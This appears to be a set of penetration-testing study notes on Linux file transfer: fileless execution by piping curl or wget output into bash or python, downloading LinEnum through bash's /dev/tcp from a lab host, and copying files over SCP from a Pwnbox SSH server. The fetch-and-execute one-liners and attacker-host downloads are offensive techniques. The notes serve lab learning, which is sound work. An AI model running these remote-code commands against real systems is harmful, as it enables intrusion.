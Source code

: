 ### Fileless Attacks
- **Concept**: Execute scripts without saving to disk using pipes.
- **Examples**:
  - `cURL`:
    ```bash
    curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
    ```
  - `wget` (Python script):
    ```bash
    wget -qO- https://raw.githubusercontent.com/guliourena/plaintext/master/hello.py | python
    # Output: hello World!
    ```
- **Note**: Some payloads (e.g., `mhillo`) may create temporary files despite fileless execution.

### Download with Bash (`/dev/tcp`)
- **Use Case**: When `wget` or `cURL` are unavailable, use Bash (version 2.04+ with `--enable-net-redirections`).
- **Process**:
  - Connect to web server:
    ```bash
    exec 3<>/dev/tcp/10.10.10.32/80
    ```
  - Send HTTP GET request:
    ```bash
    echo -e "GET /LinEnum.sh HTTP/1.1\n\n" >&3
    ```
  - Read response:
    ```bash
    cat <&3
    ```

### SSH Downloads
- **Protocol**: SCP (secure copy) over SSH for secure file transfers.
- **Setup Pwnbox SSH Server**:
  - Enable:
    ```bash
    sudo systemctl enable ssh
    ```
  - Start:
    ```bash
    sudo systemctl start ssh
    ```
  - Verify:
    ```bash
    netstat -lnpt
    # Output: TCP 0.0.0.0:22 LISTEN
    ```
- **Download with SCP**:
  ```bash
  scp plaintext@192.168.49.128:/root/myroot.txt .
  ```
- **Note**: Use temporary accounts to avoid exposing primary credentials.
